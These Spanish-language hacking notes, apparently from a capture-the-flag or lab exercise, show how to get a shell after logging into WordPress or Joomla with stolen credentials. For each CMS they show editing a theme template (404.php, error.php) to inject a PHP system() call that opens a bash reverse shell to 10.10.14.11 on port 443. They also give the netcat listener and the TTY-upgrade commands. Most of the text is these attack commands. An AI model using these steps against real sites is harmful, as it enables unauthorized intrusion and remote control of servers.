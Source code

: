 Usando las contraseñas y los usuarios conseguidos probamos e iniciamos sesión

## WordPress

Apperance > Editor > 404.php

Inyectamos una reverse shell

````
system("bash -c 'bash -i >& /dev/tcp/10.10.14.11/443 0>&1'");
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020250218151701.png)
Lanzamos un 404 error
![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020250218151726.png)
Nos ponemos en escucha

````
nc -lnvp 443
````

\[-\] ==pwned!==

````
script /dev/null -c bash
````

ctrl+z

````
stty raw -echo; fg
	reset xterm
````

````
export TERM=xterm
````

## Joomla

Extensions > Templates > Templates > (Template) > error.php
Inyectamos una reverse shell

````
system("bash -c 'bash -i >& /dev/tcp/10.10.14.11/443 0>&1'");
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020250218155852.png)
Nos ponemos en escucha

````
nc -lnvp 443
````

\[-\] ==pwned!==

````
script /dev/null -c bash
````
